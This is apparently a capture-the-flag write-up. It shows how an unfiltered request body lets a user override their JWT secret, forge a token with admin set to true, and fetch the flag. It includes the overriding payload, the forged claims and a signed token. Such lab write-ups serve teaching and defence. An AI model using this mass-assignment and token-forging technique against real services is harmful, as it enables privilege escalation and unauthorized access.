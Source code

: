 ## Write Up
```js
users[user.name] = {
    secret: nanoid(32),
    ...user,
};
```

The following payload can be used to set an arbitrary JWT secret for your user, as the request body is not filtered and thus can override `secret`. We cannot directly tamper the `admin` property as the server checks for the string `"admin"` in the request body.

```js
{
    "user": {
        "name": "zz",
        "secret": "Jp_wtk93fWqUTxA8nQciUdc7yhG1_xXU"
    }
}
```

Now that we control and know the `secret` used for JWTs when `name == "zz"`, we can simply sign a JWT with that secret and `admin` set to true.

```json
{
  "name": "zz",
  "admin": true
}
```

(I used jwt.io to modify the existing token since I'm lazy)

Now you can put the resulting token into body when requesting `/flag` and obtain the flag.
```json
{
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoienoiLCJhZG1pbiI6dHJ1ZSwic2VjcmV0IjoiSnBfd3RrOTNmV3FVVHhBOG5RY2lVZGM3eWhHMV94WFUiLCJpYXQiOjE3NDAyOTAzNTJ9.kjJuioAXS6FGoQcVZOrsq4izkkRY6XIhDXc6NL7PCTA"
}
```
